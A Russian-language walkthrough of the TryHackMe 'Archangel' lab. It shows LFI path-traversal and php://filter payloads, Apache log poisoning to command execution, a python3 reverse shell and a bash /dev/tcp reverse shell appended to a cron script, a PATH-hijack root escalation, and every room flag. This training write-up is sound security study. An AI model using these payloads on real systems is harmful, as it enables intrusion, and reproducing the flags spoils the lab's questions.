


# TryHackMe: Archangel

## Task 1: Deploy Machine

### Question 1: Connect to openvpn and deploy the machine - :heavy\_check_mark:

## Task 2: Get a shell
Для начала просканируем хост при помощи Nmap:
```sh
nmap -sC -sV -p- 10.10.78.160 -T4
```


Найденные сервисы:
- 22 port - SSH (OpenSSH 7.6p1)
- 80 port - HTTP (Apache httpd 2.4.29)

Переходим на сайт и находим альтернативное имя исследуемого хоста **mafialive.thm**


### Question 2: Find a different hostname - mafialive.thm

Редактируем соответствующим образом файл **/etc/hosts**, внеся в него новую запись с альтернативным именем.


Вновь перейдем на сайт, но уже используя найденное имя


### Question 3: Find flag 1 - thm{f0und_th3_r1ght_h0st_n4m3}

Теперь просканируем сайт на наличие директорий:
```sh
gobuster dir -u http://mafialive.thm -w /usr/share/wordlists/dirb/common.txt
```


Находим **robots.txt**:


Переходим на **/test.php**:



### Question 4: Look for a page under development - test.php

На странице располагается кнопка. Если нажать на нее, то появится сообщение и в url отобразится полный путь до того места, где мы находимся.


Намек на LFI. Пробуем посмотреть на **/etc/passwd**:
```sh
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//etc/passwd
```


После нескольких попыток у нас получается дотянуться до вышеупомянутого файла. Попробуем получить исходный код страницы **test.php**
```sh
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```


Копируем полученную строку в формате base64 и декодируем, получая исходный код страницы и второй флаг:


### Question 5: Find flag 2 - thm{explo1t1ng_lf1}

Далее находим страницу с логами Apache:
```sh
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//log/apache2/access.log
```


Откроем BurpSuite и перенесем в Repeater наш запрос:


Модифицируем запрос, как показано ниже:


Результат запроса:


Как видим, наша команда **ls**, которая передана в качестве аргумента параметру **cmd**, успешно исполнилась. Параметр **cmd** указан в поле **User-Agent**, т.е. в этом поле ожидается прием команды на исполнение через аргумент.

Раз команды исполняются, можно реализовать команду на получение reverse shell'а (Обращаю внимание на то, что используется именно python3):
```sh
python3%20-c%20'import%20socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.106.249",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Для начала ставим у себя на машине порт 4444 на прослушивание:


Далее во все том же разделе Repeater, необходимо внедрить команду для получения reverse shell'а:


В итоге мы получаем первичный доступ к терминалу на удаленном хосте:


Получаем очередной флаг:


### Question 6: Get a shell and find the user flag - thm{lf1_t0_rc3_1s_tr1cky}

## Task 3: Root the machine
Среди файлов пользователя **archangel**, не удалось найти ничего интересного, найдена только та самая ссылка...


Заглянем в **crontab**:


Находим задачу, которая запускает скрипт helloworld.sh:


Собственно говоря, можно в этот файл добавить команду, которая даст нам другой reverse shell, но уже от лица пользователя **archangel**.
```sh
echo "bash -i >& /dev/tcp/10.18.106.249/5555 0>&1" >> /opt/helloworld.sh
```

Слушаем другой порт, например, 5555:


Запускаем команду, которая представлена выше:


И вот у нас получилось реализовать горизонтальное повышение привилегий:


Получаем еще один флаг:


### Question 7: Get User 2 flag - thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}

Теперь перед нами стоит задача получить суперпользователя. К сожалению, sudo мы использовать не можем:


В директории /home/archangel/secret, помимо флага, обнаружен исполняемый файл. Попробуем его запустить:


Получаем ошибку, связанную с **cp**. А вот тут как раз можно повыситься, подменив ту команду.


Всякий раз, когда вызывается команда **cp**, **/bin/bash** будет выполняться с разрешения действующего пользователя (в случае двоичного файла SUID это будет root). Привилегии повышены до суперпользователя - читаем последний флаг:



### Question 8: Root the machine and find the root flag - thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}
